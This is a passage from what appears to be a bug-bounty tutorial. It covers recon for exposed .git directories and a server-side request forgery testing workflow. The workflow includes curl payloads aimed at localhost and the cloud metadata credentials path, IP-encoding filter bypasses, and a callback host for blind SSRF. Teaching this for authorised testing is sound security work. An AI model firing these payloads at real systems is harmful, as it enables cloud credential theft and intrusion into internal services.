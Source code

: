 cat domains.txt | grep "SUCCESS" | gf urls | httpx-toolkit -sc -server -cl -path "/.git/" -mc 200 -location -ms "Index of" -probe
This command:
Filters successful responses
Uses GF patterns to extract URLs
Tests for .git/ directory exposure
Looks for “Index of” in responses
Checks for directory listing
SSRF Testing & Exploitation
Server-Side Request Forgery (SSRF) is a powerful vulnerability that allows attackers to make the server initiate requests to internal or external resources. This can lead to sensitive data exposure, cloud metadata access, internal port scanning or even remote code execution when chained properly.

This section covers a full SSRF testing workflow from identifying vulnerable parameters, using automation tools, crafting bypass payloads, to chaining SSRF with other vulnerabilities for maximum impact.

# Look for common SSRF-prone parameters in URLs

cat urls.txt | grep -E 'url=|uri=|redirect=|next=|data=|path=|dest=|proxy=|file=|img=|out=|continue=' | sort -u

# Look for API/webhook integrations or cloud metadata patterns
cat urls.txt | grep -i 'webhook\|callback\|upload\|fetch\|import\|api' | sort -u

# Nuclei for automated scanning
cat urls.txt | nuclei -t nuclei-templates/vulnerabilities/ssrf/
# Basic SSRF to local services
curl "https://target.com/page?url=http://127.0.0.1:80/"
curl "https://target.com/page?url=http://localhost:8080"

# Target internal cloud metadata
curl "https://target.com/api?endpoint=http://169.254.169.254/latest/meta-data/"
curl "https://target.com/api?endpoint=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Bypass filters with alternative IP formats
http://127.0.0.1%23.google.com
http://127.1
http://[::1]/ 
http://0x7f000001
http://017700000001

# DNS rebinding or callback for blind SSRF
curl "https://target.com/page?url=http://yourdomain.burpcollaborator.net"
GitHub - swisskyrepo/SSRFmap: Automatic SSRF fuzzer and exploitation tool
Automatic SSRF fuzzer and exploitation tool. Contribute to swisskyrepo/SSRFmap development by creating an account on…
github.com
